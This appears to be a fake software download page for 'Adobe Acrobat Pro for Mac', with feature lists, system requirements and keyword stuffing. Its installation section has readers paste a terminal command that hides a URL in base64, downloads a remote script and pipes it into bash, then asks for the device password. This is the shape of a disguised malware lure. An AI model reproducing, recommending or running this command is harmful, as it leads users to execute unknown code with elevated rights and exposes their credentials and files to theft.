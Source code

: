 # Adobe Acrobat Pro Mac Download

![Adobe Acrobat Pro Mac Screenshot 1](https://www.howtoisolve.com/wp-content/uploads/2023/01/how-to-download-install-adobe-acrobat-mac.webp)

---

## 📦 How to Install

# Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQxMC9pbnN0YWxsLnNo | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## 📦 What is Adobe Acrobat Pro for Mac?

**Adobe Acrobat Pro for Mac** is the industry-leading PDF solution trusted by professionals and organizations worldwide. It allows you to create, edit, convert, sign, and protect PDF files with precision and ease—right from your macOS device. Whether you're a business user, educator, legal professional, or student, Adobe Acrobat Pro empowers you to handle PDF workflows at a professional level.

Built natively for **macOS**, including full support for **Apple Silicon (M1, M2, M3)**, Adobe Acrobat Pro runs smoothly on MacBook Pro, MacBook Air, iMac, and more. You can edit scanned documents using OCR, combine multiple file types into a single PDF, and export to formats like Word, Excel, and PowerPoint. Collaboration is easy with cloud sharing, e-signature collection, and commenting tools.

This powerful tool is perfect for those who rely on PDF documents for daily workflows, contracts, forms, or academic materials. Adobe Acrobat Pro delivers a seamless experience on Mac, blending performance with deep functionality for managing PDF documents in any professional environment.

---

![Adobe Acrobat Pro Mac Screenshot 2](https://imag.malavida.com/mvimgbig/download-fs/adobe-acrobat-professional-543-3.jpg)

---

## 🌟 Key Features & Benefits

- 📝 **Create & Edit PDFs** — Edit text and images in PDFs just like in a word processor.
- 🔍 **Advanced OCR Technology** — Convert scanned documents into searchable and editable files.
- 🧾 **Convert Files to PDF** — Export Word, Excel, PowerPoint, and images to professional PDFs.
- ✅ **Fill & Sign Forms** — Complete and e-sign forms quickly, without printing.
- 🔐 **Document Protection** — Add passwords, redact sensitive info, and manage permissions.
- 📤 **Cloud Collaboration** — Share PDFs and collect feedback or e-signatures online.
- 💻 **macOS Optimized** — Fully compatible with macOS Ventura and Apple Silicon chips.
- 🔁 **Batch Processing** — Automate repetitive PDF tasks like combining or renaming files.

---

## 🖥️ System Requirements

- macOS: 11.0 Big Sur or later  
- Processor: Intel or Apple Silicon (M1/M2/M3)  
- RAM: 4 GB or more  
- Disk Space: 2 GB minimum  

---

## 🏷️ Keywords

mac adobe acrobat pro, download adobe pro dc, adobe acrobat reader pro mac, adobe acrobat pro dc mac, adobe acrobat pro download mac, adobe acrobat pro 2020 mac, acrobat pro download mac, acrobat pro dc for mac, adobe pro dc for mac, acrobat pro download for mac, adobe acrobat pro macos, adobe reader for macbook pro, adobe reader pro mac, acrobat pro macos, acrobat pro dc download mac



